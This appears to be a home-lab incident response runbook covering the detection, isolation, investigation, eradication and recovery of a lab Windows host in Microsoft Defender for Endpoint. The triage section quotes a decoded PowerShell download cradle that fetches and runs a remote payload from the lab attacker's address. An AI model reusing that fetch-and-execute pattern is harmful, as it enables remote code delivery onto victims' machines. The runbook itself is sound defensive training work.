

# Incident Response Runbook

Ran a full incident response on `victim-a` after my custom detection rules created a multi-stage incident in Microsoft Defender for Endpoint. Followed the **NIST SP 800-61** framework from detection through recovery. The eradication step also lines up with the SANS PICERL model.

## Frameworks used

- **NIST SP 800-61**: Main incident response framework used for this runbook. The response followed Detection & Analysis, Containment, Eradication & Recovery, and Post-Incident Activity.
- **SANS PICERL**: Used as a secondary reference because it separates eradication into its own step, which matches the cleanup work in this lab.
- **MITRE ATT&CK**: Used to map the attacker techniques in the [attack chain](../attack-chain/). ATT&CK describes what the attacker did. NIST and PICERL describe what the responder did.

---

## Response cycle at a glance

```text
DETECT       Four custom rules fired, and Defender created a multi-stage incident.
TRIAGE       Reviewed the incident, decoded the PowerShell cradle, and marked it True Positive.
CONTAIN      Isolated victim-a from the Defender portal.
INVESTIGATE  Used Live Response on victim-a and confirmed the payload was never written to disk.
ERADICATE    Removed the Run key, disabled lab accounts, blocked the attacker IP, and re-ran cleanup through Live Response.
VERIFY       Confirmed the Run key was removed locally and through Live Response.
RECOVER      Released victim-a from isolation.
```

---

## Detect

My four custom detection rules created alerts that Defender grouped into incidents. The full detection logic is documented in [custom-detection-rules.md](../detections/custom-detection-rules.md).

- **Incident 2**: `Multi-stage incident involving Execution & Persistence on one endpoint`
  - Severity: Medium
  - Alerts: 2/2
  - Source: Custom detection
  - Host: `victim-a`
  - Purpose: Primary incident for this response

- **Incident 3**: `RDP Lateral Movement Detected on victim-b`
  - Severity: Medium
  - Source: Custom detection
  - Host: `victim-b`
  - Purpose: Confirmed lateral movement activity

- **Incident 1**: `EICAR_Test_File malware was prevented`
  - Severity: Informational
  - Source: Antivirus
  - Host: `victim-a`
  - Purpose: Built-in detection contrast

The EICAR result was useful for comparison. Defender Antivirus blocked a known test file on its own, but the behavioral attack chain did not create a built-in incident. The signature-based test was caught. The credential-based and LOLBin activity required custom detection logic.

## Triage

Opened the multi-stage incident and reviewed the Encoded PowerShell alert. The process tree showed:

```text
userinit.exe -> explorer.exe -> powershell.exe -> powershell.exe executed a script
```

Confirmed the activity as malicious based on the following evidence:

- The binary was the real signed Microsoft `powershell.exe`.
- VirusTotal showed `0/70`, which pointed to LOLBin abuse instead of a malicious binary.
- KQL showed the exact encoded PowerShell command line.
- Decoding the base64 revealed the PowerShell cradle:

```powershell
IEX ... DownloadString('http://192.168.74.136/payload.ps1')
```

**Verdict: True Positive**

## Contain

Isolated `victim-a` from the Defender portal:

```text
Device page -> More actions (...) -> Isolate device -> Full isolation
```

Added a comment noting that the host had an active compromise. The Action Center confirmed the isolation was completed.


*The Action Center history shows the containment step. The "Isolate device" action on victim-a was started from the portal and completed successfully.*

The incident graph also showed `victim-a` marked as **Isolated**.


*The incident graph shows victim-a isolated during containment.*

Because the host was isolated, normal network access was blocked. I used the VMware console for local commands. Live Response still worked because it uses the Defender channel, not normal network access.

## Investigate and eradicate

### Investigate with Live Response

Enabled Live Response in:

```text
Settings -> Endpoints -> Advanced features
```

Turned on:

- Live Response
- Live Response for Servers
- Unsigned script execution

After the settings propagated, opened a Live Response session on `victim-a`.

Checked whether the payload was on disk:

```text
dir "C:\Users\Public"
```

The folder did not contain `beacon.ps1`.

Tried to remove the file through Live Response:

```text
remediate file "C:\Users\Public\beacon.ps1"
```

Result:

```text
Failed: file not found
```

This confirmed the payload was never written to disk. The real foothold was the Run key, not a dropped file. The Action Center showed both the completed `dir` command and the failed file remediation attempt.

### Eradicate locally

Removed the foothold locally through the VMware console because the machine was isolated.

On `victim-a`, ran PowerShell as administrator:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater"

net user labvictim /active:no

New-NetFirewallRule -DisplayName "Block Attacker Kali" -Direction Inbound -RemoteAddress 192.168.74.136 -Action Block

Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater"
```

Verification result:

```text
Property Updater does not exist
```

On `victim-b`, disabled the lateral movement account:

```powershell
net user labtest /active:no
```

### Eradicate through Live Response

Created an `eradicate.ps1` script, uploaded it to the Live Response library, checked the library, then ran it on `victim-a`.

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -ErrorAction SilentlyContinue

net user labvictim /active:no

New-NetFirewallRule -DisplayName "Block Attacker Kali LR" -Direction Inbound -RemoteAddress 192.168.74.136 -Action Block -ErrorAction SilentlyContinue

Write-Output "=== VERIFY: Run key should be gone. No output means removed. ==="

Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -ErrorAction SilentlyContinue

Write-Output "=== Eradication complete via Live Response ==="
```



*Live Response on victim-a running eradicate.ps1. The firewall block rule was created, the verification check showed no Run-key output, and the script confirmed cleanup through the EDR.*

### Cleanup summary

| Action | Target | Result |
|--------|--------|--------|
| Removed Run key `Updater` | `victim-a` | Removed |
| Disabled account `labvictim` | `victim-a` | Completed |
| Disabled account `labtest` | `victim-b` | Completed |
| Blocked attacker IP `192.168.74.136` | `victim-a` firewall | Inbound block rule created |
| Re-ran cleanup through Live Response | `victim-a` | Completed through EDR |

## Verify

Confirmed the Run key was removed two ways:

- **Locally:** `Get-ItemProperty` returned `Property Updater does not exist`.
- **Through Live Response:** the `eradicate.ps1` verification step showed no Run-key output.

This confirmed the persistence mechanism was removed.

## Recover

Released `victim-a` from isolation after cleanup was confirmed.

```text
Device page -> More actions (...) -> Release from isolation
```

Added a comment noting that eradication and verification were complete. This returned the machine to normal network access and closed the response cycle.

---

## Lessons learned

- **The registry value was the real foothold.** The payload was never written to disk. Persistence lived in the Run key, so the correct fix was to remove the persistence mechanism, not just search for a file.
- **Default detection had visibility but did not raise the behavioral incident.** Every stage was present in telemetry, but the built-in detections did not create the incident. Custom KQL rules closed that gap.
- **Correlation depends on shared entities.** The execution and persistence alerts merged because they shared the same host and user. The lateral movement alert stayed separate because it involved a second host.
- **Live Response still works during isolation.** The Defender channel stayed available even while the endpoint was isolated, which made it possible to investigate and clean the host without removing containment.
